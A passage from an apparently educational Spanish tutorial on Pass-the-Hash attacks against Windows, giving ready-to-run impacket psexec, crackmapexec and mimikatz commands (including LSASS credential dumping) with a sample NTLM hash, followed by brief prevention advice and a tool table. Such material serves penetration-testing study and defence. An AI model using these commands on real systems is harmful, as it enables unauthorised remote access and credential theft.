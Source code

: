 #### ✅ Opción 1: Usando `impacket-psexec.py`

```bash
psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:32ed87bdb5fdc5e9cba88547376818d4 gustavo@192.168.1.100
```

📌 Este comando abrirá una **shell interactiva** en el sistema Windows remoto como `gustavo`.

---

#### ✅ Opción 2: Usando `crackmapexec`

```bash
crackmapexec smb 192.168.1.100 -u gustavo -H 32ed87bdb5fdc5e9cba88547376818d4 --exec 'whoami'
```

🔎 Esto ejecuta `whoami` remotamente usando el hash NTLM.

---

#### ✅ Opción 3: Usando `mimikatz` en Windows

1. Abre `mimikatz` como administrador en un equipo Windows.

2. Usa el siguiente comando para hacer un "Pass The Hash" desde sesión local:

```mimikatz
privilege::debug
sekurlsa::logonpasswords
sekurlsa::pth /user:gustavo /domain:DOMINIO /ntlm:32ed87bdb5fdc5e9cba88547376818d4 /run:cmd.exe
```

Esto abre una nueva terminal `cmd` autenticada como `gustavo` con el hash NTLM.

---

### 🔐 ¿Cómo prevenir el Pass The Hash?

1. **Evita que cuentas privilegiadas inicien sesión en estaciones de trabajo.**
2. **Segmenta la red y usa cuentas de administración local únicas.**
3. Usa **LSA Protection** para proteger `lsass.exe` (evita volcados).
4. Usa **autenticación Kerberos** cuando sea posible.
5. Habilita herramientas EDR que detecten uso de hashes.

---

### 🧠 Resumen general

| Herramienta       | Sistema    | Uso principal                |
| ----------------- | ---------- | ---------------------------- |
| `impacket-psexec` | Kali Linux | Autenticación remota via SMB |
| `crackmapexec`    | Kali Linux | Automatización y exploración |
| `mimikatz`        | Windows    | Generar sesión con hash NTLM |
| `evil-winrm`      | Kali Linux | Conexión a WinRM con hash    |

---